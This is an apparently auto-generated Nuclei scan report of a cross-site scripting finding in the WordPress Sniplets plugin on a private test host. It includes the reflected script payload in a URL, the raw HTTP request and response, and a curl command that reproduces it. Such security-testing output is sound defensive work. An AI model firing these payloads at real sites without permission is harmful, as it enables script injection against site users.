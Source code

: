 ### Wordpress Plugin Sniplets - Cross-Site Scripting (sniplets-xss) found on http://192.168.198.179:8080/
---
**Details**: **sniplets-xss**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/sniplets/view/sniplets/warning.php?text=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:07 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Wordpress Plugin Sniplets - Cross-Site Scripting |
| Authors | dhiyaneshdk |
| Tags | xss, wordpress, wp-plugin, wp |
| Severity | medium |
| Description | Cross-site scripting (XSS) on Wordpress Plugin Sniplets |

**Request**
```http
GET /wp-content/plugins/sniplets/view/sniplets/warning.php?text=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 249
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/sniplets/view/sniplets/warning.php?text=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://www.exploit-db.com/exploits/5194

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/sniplets/view/sniplets/warning.php?text=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)